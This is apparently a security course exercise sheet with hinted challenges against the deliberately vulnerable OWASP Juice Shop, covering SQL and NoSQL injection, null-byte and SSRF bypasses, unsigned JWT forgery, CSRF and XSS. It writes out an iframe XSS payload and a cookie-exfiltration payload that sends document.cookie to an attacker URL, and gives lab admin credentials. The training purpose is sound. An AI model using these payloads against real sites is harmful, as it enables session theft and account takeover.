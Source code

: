 # Exercises

Make sure you understand the feature you are analysing for vulnerabilities.
Before attempting any exploits, walk the "happy path" and investigate if the feature works as expected.


## Zero Stars

Give a devestating zero-start feedback to the store. You find the feedback form at `/#/contact`.

<details>
  <summary>❓ Hint 1</summary>
Can you enable the button with the developer tools?

</details>

<details>
  <summary>❓ Hint 2</summary>
There is another way: Use ZAP to find the request and replay it with a 0 value.
    
</details>


## Payback Time

Place an order that makes you rich.

<details>
  <summary>❓ Hint 1</summary>
When you order an item, you pay money. When you sell an item, you are being paid. Basic economics.
</details>

<details>
  <summary>❓ Hint 2</summary>
Have you tried ordering a negative amount of items?
</details>


## Confidential Document

Access a confidential document.
Reading the about us (`/#/about`) might nudge you in the right direction.


<details>
  <summary>❓ Hint 1</summary>

Robots are certainly disallowed to access confidential files.
How would you tell google to hide a directory?
</details>


## View Basket

You need some inspiration on what to buy. View another user's shopping basket.

<details>
  <summary>❓ Hint 1</summary>

Observe the HTTP traffic using ZAP when shopping. Is there a request with an interesting parameter that you could change in your favor?
</details>


## Forged Review

Privacy is important. Post a product review as another user or edit any user's existing review.

<details>
  <summary>❓ Hint 1</summary>

Observe the HTTP traffic using ZAP while submitting a review for the "Apple Juice". Can you alter any interesting parameters when sending a request to `/rest/products/1/reviews`?
</details>


## Login Admin

Sometimes it is boring to be a normal user. Login as the administrator (admin@juice-sh.op) instead.

<details>
  <summary>❓ Hint 1</summary>

User credentials are generally stored in a database, can you perform an injection that results in a positive query reply?
</details>

<details>
  <summary>❓ Hint 2</summary>

Don't forget to comment out the trash after the injected commands.
</details>


## User Credentials

Data is power. Steal all user credentials by abusing the search functionality.

<details>
  <summary>❓ Hint 0 (the endpoint)</summary>

The vulnerable (legacy) search endpoint is located under the following path `/rest/products/search?q=<SEARCH QUERY>`.
</details>

<details>
  <summary>❓ Hint 1</summary>

The endpoint is vulnerable to SQL injections.
When exploiting a SQL injection, make sure that you know how to properly close the query.
Start by crafting a simple query that doesn't result in an error (e.g. does `test';--` work, or are there for instance any open brackets left?)
</details>

<details>
  <summary>❓ Hint 2</summary>

Exploit the SQLi by crafting an `UNION SELECT` query to join the data from another table to the results.
</details>

<details>
  <summary>❓ Hint 3</summary>

Use the `sqlite_schema` table to extract the relevant table names.
</details>

<details>
  <summary>❓ Hint 4</summary>

Use the `PRAGMA_TABLE_INFO('TABLE NAME GOES HERE')` table to extract the relevant column names.
</details>


## NoSQL Manipulation

Look at the endpoint `PATCH /rest/products/reviews`.
Update multiple product reviews at the same time.

```javascript
module.exports = function productReviews () {
  return (req, res, next) => {
    const user = security.authenticatedUsers.from(req)
    db.reviews.update(
      { _id: req.body.id },
      { $set: { message: req.body.message } },
      { multi: true }
    ).then(
      result => {
        res.json(result)
      }, err => {
        res.status(500).json(err)
      })
  }
}
```

<details>
  <summary>❓ Hint 1</summary>

Read the documentation of
<a href="https://www.mongodb.com/docs/manual/reference/method/db.collection.update/">`db.collection.update` documentation</a>
and the <a href="https://www.mongodb.com/docs/manual/reference/operator/query/">query operators documentation</a>.

Which query allows you to change multiple reviews at the same time?
</details>


## Null-Byte Injection

Download `/ftp/package.json.bak`.
Note node.js handles null-bytes differently than the underlying library which is written in C.

<details>
  <summary>❓ Hint 1</summary>
In C strings are terminated by a NULL byte.
Thus the string "hello.txt■.md" (with ■ representing the NULL byte) will be seen as "hello.txt■.md" in node.js, but as "hello.txt" in the low level library that opens the file.
How can this be exploited, when the access verification happens in node.js?
</details>

<details>
  <summary>❓ Hint 2</summary>
A url encoded null byte is represented as "%00", however, make sure you properly encode it when submitting the request.
</details>
  
## Secret Password List

There is a very interesting file at `/ftp/password-list.png` but apparently only localhost can access it. Can you still get the file?

<details>
  <summary>❓ Hint 1</summary>

If the juice-shop would access the file, it would make a call to the localhost, i.e. `http://localhost:3000/ftp/password-list.png`

</details>

<details>
  <summary>❓ Hint 2</summary>

The profile picture looks like an ideal place to display scans. How are the pictures loaded when you enter a url?

</details>
  
<details>
  <summary>❓ Hint 3</summary>

How could you bypass this check?
```typescript
function invalid_url(url: string): boolean {  // ssrf check
  const bad_urls: string[] = ['http://127.0.0.1', 'https://127.0.0.1', 'http://localhost', 'https://localhost'];
  return bad_urls.some(prefix => url.startsWith(prefix));
}
```

</details>
  



## Federated Authentication

Find a website with a social login and use ZAP to observe what happens when you sign in.  
Example: https://oag.azurewebsites.net


## JSON Web Token
Analyze a JWT from the shop with https://jwt-attacker.onrender.com

- What claims are in the token?
- How is it signed?


## Unsigned JWT

Forge an essentially unsigned JWT that impersonates the (non-existing) user jwtn3d@juice-sh.op.

<details>
  <summary>❓ Hint 1</summary>
Exploit a weird option, that is available when signing tokens with JWT.
</details>

<details>
  <summary>❓ Hint 2</summary>
The weird option is the none algorithm ;)
</details>


## DOM XSS

Perform a DOM XSS attack with the following payload: ```<iframe src="javascript:alert('xss')">```.

<details>
  <summary>❓ Hint 1</summary>
Did you try searching?
</details>


## Blind Persistent XSS

Perform a (blind) persistent XSS attack bypassing a client-side security mechanism.

- The admin can see a list of all users on `/#/administration`
- Admin login: admin@juice-sh.op / admin123

Can you extract the cookies and send it to you (https://requestbin.com/ might be helpful (use a public bin without a login))?

<details>
  <summary>❓ Hint 1</summary>
What information is displayed to the admin? When can you set it?
</details>

<details>
  <summary>❓ Hint 2</summary>
When registering a new user the endpoint `/api/Users` is contacted. This looks interesting...
</details>

<details>
  <summary>❓ Hint 3 (Cookie exfiltration)</summary>

Have you tried the following?

```
<img src=x onerror="this.src='YOUR.URL?'+document.cookie; this.removeAttribute('onerror');">
```
</details>


## Content Security Policy

Search for a websites with a CSP. How does the CSP of your favorite bank look like?


## CSRF

Change the name of a user by performing Cross-Site Request Forgery from another origin.

- Make your own attacker web-site that changes a logged-in user's Juice Shop username when she/he visits your site.
- Note: You need to use Firefox, because it does not treat cookies as `same-site=lax` per default.
- Can you do it with a CORS request and an autosubmitting `<form>`?
- Use `http://htmledit.squarefree.com` (make sure it is `http`) or a local file to simulate a different website.

<details>
  <summary>❓ Hint 1</summary>
`POST /profile`
</details>


## Frontend Typosquatting

[Inform the shop](http://localhost:3000/#/contact) about a typosquatting imposter that dug itself deep into the frontend (Mention the exact name of the culprit in the contact form).

<details>
  <summary>❓ Hint 1</summary>

Inspect the package.json.bak from the <a href="#null-byte-injection">Null-Byte Injection exercise</a>.
</details>


## Vulnerable Library

[Inform the shop](http://localhost:3000/#/contact) about a vulnerable library it is using (Mention the exact library name and version in your comment).

<details>
  <summary>❓ Hint 1</summary>

Inspect the package.json.bak from the <a href="#null-byte-injection">Null-Byte Injection exercise</a>.
</details>

  <details>
  <summary>❓ Hint 2</summary>
Use Snyk or any other dependency scanner to analyze the Juice Shop's dependencies.

- Are there any outdated packages?
- How severe are the issues?
</details>




## OWASP ZAP Scanning

Use OWASP ZAP to perform an automated dynamic test of your Juice Shop.

`docker run --net=host -t zaproxy/zap-stable zap-baseline.py -t {URL}`

- What kind of vulnerabilities does it find?
- Do you think it is useful?
- If you are interested, try the full scan.
